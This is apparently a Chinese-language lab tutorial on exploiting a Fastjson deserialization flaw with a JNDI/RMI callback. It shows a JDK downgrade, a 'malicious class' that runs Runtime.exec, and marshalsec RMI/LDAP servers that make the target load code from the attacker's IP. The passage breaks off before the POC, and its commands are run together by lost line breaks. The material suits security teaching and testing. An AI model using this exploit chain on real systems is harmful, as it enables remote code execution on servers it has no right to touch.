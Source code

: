     
    
    cd /optcurl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gztar zxvf jdk-8u20-linux-x64.tar.gzrm -rf /usr/bin/java*ln -s /opt/jdk1.8.0_20/bin/j* /usr/binjavac -versionjava -version

执行命令完成之后发现java版本已经变成了20

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122822.png)

编辑恶意类代码，起名为evilclass.java

    
    
    import java.lang.Runtime;import java.lang.Process;publicclass evilclass{static{try{Runtime rt = Runtime.getRuntime();String[] commands = {"touch", "/tmp/test"};Process pc = rt.exec(commands);pc.waitFor();} catch(Exception e) {// do nothing}}}

使用javac编译evilclass.java文件生成evilclass.class

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122824.png)

这里需要搭建RMI服务，首先下载marshalsec

    
    
    git clone https://github.com/mbechler/marshalsec.git

安装maven并编译marshalsec生成jar

    
    
    apt-get install mavenmvn clean package-DskipTests

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122825.png)

稍微等一下，可以看到已经创建成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122827.png)

我们进入到marshalsec的target目录里面进行查看已经生成了marshalsec-0.0.3.3-SNAPSHOT-
all.jar，然后使用marshalsec搭建一个RMI服务器，这里的ip就是你攻击机的ip，端口可以随意

这里也可以使用启动LDAP服务，效果是一样的

    
    
    lsjava -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer"http://192.168.1.8/#evilclass"9999java-cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer"http://192.168.1.8/#evilclass"9999

这里我使用RMI，可以看到请求成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122828.png)

bp在靶机的fastjson页面抓包

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220215122829.png)

这里需要改的有三个地方，第一个地方需要把GET方法改成POST方法，第二个地方需要添加Content-
Type:application/json，第三个地方就是写入漏洞利用的poc

